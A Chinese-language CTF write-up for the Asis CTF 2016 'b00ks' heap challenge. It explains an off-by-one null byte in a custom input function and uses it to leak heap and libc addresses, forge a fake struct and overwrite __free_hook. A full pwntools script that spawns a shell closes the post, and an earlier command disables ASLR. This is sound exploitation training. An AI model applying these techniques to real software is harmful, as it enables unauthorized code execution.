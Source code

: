 ```yaml
---
title: "Asis CTF 2016 b00ks 题解"
publishDate: "4 Feb 2023"
description: "一个 Linux 堆题, 😭 为啥 Linux 堆分配这么复杂啊嘤嘤嘤，堆题好难啊嘤嘤嘤"
tags: ["CTF", "PWN"]
---
```


## 关于堆 chunk

一开始我还以为堆 chunk 会乱分配，但是没有想到实际上这个堆空间的划分和切香肠的过程很像。

一开始我们会有一个 top chunk

![Untitled.png](https://s2.loli.net/2023/02/04/6mon4xQwOWBNktP.png)

然后假如说用户申请了一个 chunk ，而且 chunk 的大小比 top chunk 小，那么计算机就会从 top chunk 上切一块出来，分配给用户

![Untitled 1.png](https://s2.loli.net/2023/02/04/PIQE8rziWYyZNwC.png)

如果比 top chunk 大，那么计算机会使用 mmap，从别的地方分配一个内存给用户，这个题目用不到这个特性。

## 安全防护信息

![Untitled 2.png](https://s2.loli.net/2023/02/04/pQt3MIj8S4ygYAh.png)

虽然说这个题目 canary 没有开，但是实际上这个题目中所有的数据都输入到了堆上。所以实际上这个地方根本就没有栈溢出。然后开启了 PIE，为了调试方便，我们用下面这个命令关闭 aslr

```bash
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

之后使用 rebase programme 来修正 idea 中程序每条汇编指令在内存中的地址。

![Untitled 3.png](https://s2.loli.net/2023/02/04/3WvZT6UAxBIFKpO.png)

## 代码分析

这个题目中，题目的作者自己实现了一个 gets 函数

```cpp
__int64 __fastcall sub_5555555549F5(_BYTE *a1, int a2)
{
  int i; // [rsp+14h] [rbp-Ch]

  if ( a2 <= 0 )
    return 0LL;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, a1, 1uLL) != 1 )
      return 1LL;
    if ( *a1 == 10 )
      break;
    ++a1;
    if ( i == a2 ) // 应该是 i == a2 - 1 就要退出循环
      break;
  }
  *a1 = 0;
  return 0LL;
}
```

我们可以看到这个函数实际上犯了一个非常低级的错误，这个函数将从 stdin 中读取字符串，但是很明显他搞错了循环的次数，在输入数据的时候多输入了一位数据。这就给我们带来了漏洞

### 漏洞 1

可以看到 author name 的地址为 0x555555756040, 然后那个存放书本指针的数组在 0x555555766060，可以看到这两个数据是相邻的。所以我们先将 author_name 这个字符串数组填满，这样字符串结尾的 \x00 就会到 books_arr 这个数组里面。这个时候我们再创建一本书，然后输出一下作者名，这样就能将数组中第一个数据的地址给泄漏出来。这样堆的地址就泄漏出来了。
![Untitled 4.png](https://s2.loli.net/2023/02/04/o9favNSzZEKgm1Y.png)

### 漏洞 2

> PS: 因为 chunk 在数据量比较小的时候的分配是类似切香肠的方式，所以 chunk 和 chunk 之间的偏移是固定的

除了能泄漏数据，我们还要有任意地址读写的能力，方便我们日后泄漏 libc 并且还能有劫持 free hook 的能力

所以我们可以看到，假如在创建第一本书以后，再次填充满 author_name，这个时候多出来的 \x00 就会将 books_arr 的第一个值的最后一个字节置为 0。

这样第一本书的地址就会被修改到其他的地方，然后这个地址如果能在第一本书的 description 之内，我们就能利用修改书本描述这个功能，构造一个假书本，然后这个假书本的存储名字字符串地址和描述字符串地址的那两个字段我们可以随心掌控，这样就能造成任意地址读取。只要我们将第一本书的名字和描述的空间设置为 140，那么就能做到这一点。别的长度应该也可以。

这次我们泄漏 libc 的方法采用 unsorted bin 泄漏的方法，具体操作可以看我的解题脚本。

然后劫持 free hook 的原理，可以看看这个文章

[\_\_free_hook 劫持原理](http://blog.eonew.cn/2019-03-07.__free_hook%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86.html)

## 解体脚本

```python
import pwn
import pwnlib

pwn.context.arch = "amd64"
pwn.context.log_level = "debug"
pwn.context.terminal = ['tmux', 'splitw', '-h']

SMALL_SIZE = 140
BIG_SIZE = 0x21000

# target = pwn.gdb.debug('./pwn', 'b *0x0000555555554EE1')
# target = pwn.remote('node4.buuoj.cn', 25418)
target = pwn.process('./pwn')
libc = pwn.ELF('./libc-2.23.so')

def create_book(target: pwn.process, name_size: int, name: str, description_size: int, description: str):
    target.sendlineafter('> ', b'1')
    target.sendlineafter('Enter book name size: ', str(name_size).encode())
    target.sendlineafter('Enter book name (Max 32 chars): ', name.encode())
    target.sendlineafter('Enter book description size: ',
                         str(description_size).encode())
    target.sendlineafter('Enter book description: ', description.encode())

def change_author_name(target: pwn.process, name: str):
    target.sendlineafter('> ', b'5')
    target.sendlineafter('Enter author name: ', name)

def edit_book(target: pwn.process, id: int, description: bytes):
    target.sendlineafter('> ', b'3')
    target.sendlineafter(
        'Enter the book id you want to edit: ', str(id).encode())
    target.sendlineafter(b'Enter new book description: ', description)

def delete_book(target: pwn.process, id: int):
    target.sendlineafter('> ', b'2')
    target.sendlineafter(
        'Enter the book id you want to delete: ', str(id).encode())

if __name__ == '__main__':
    target.sendlineafter('Enter author name: ', b'A' * 32)
    create_book(target, 140, "book1", 140, "abook")

    # leak book1 addr
    target.sendlineafter('> ', b'4')
    target.recvuntil(b'Author: ')
    book1_addr = pwn.u64(target.recvuntil(b'\n')[32:-1].ljust(8, b'\x00'))

    # create book2
    create_book(target, 136, 'book2', 40, 'another book')
    create_book(target, 40, '/bin/sh', 40, '/bin/sh')

    # 计算 book2 name 地址
    book2_name_addr = book1_addr + 0x30
    book3_addr = book1_addr + 0x180

    # 伪造假 book1
    fake_book1_data = pwn.flat([
        b'A' * 0x40,
        0x1,
        book2_name_addr,  # 指向 book 2 的结构体数据中的 book_name 部分
        # 到时候可以修改 book3 结构体中的 description 地址，未来将这个地址修改成 free hook 的地址，这样我们就能修改 free hook 了
        book3_addr + 16,
        0xffff
    ])
    edit_book(target, 1, fake_book1_data)
    change_author_name(target, 'A' * 32)

    delete_book(target, 2)

    # leak libc addr and free_hook addr
    target.sendlineafter('> ', b'4')
    target.recvuntil('Name: ')
    fd_value = pwn.u64(target.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
    main_arena_addr = fd_value - 88
    malloc_hook_addr = main_arena_addr - 0x10
    libc_addr = malloc_hook_addr - libc.symbols['__malloc_hook']
    system_addr = libc_addr + libc.symbols['system']
    free_hook_addr = libc_addr + libc.symbols['__free_hook']

    # 将 book3 中的 description 地址修改成 free hook 的
    # 这个地方很关键，因为输入了数据以后，因为 off by one，会导致 size 字段被清空
    edit_book(target, 1, pwn.p64(free_hook_addr) + b'\x20')
    edit_book(target, 3, pwn.p64(system_addr) + b'\x20')

    # get shell
    delete_book(target, 3)
    target.interactive()
```
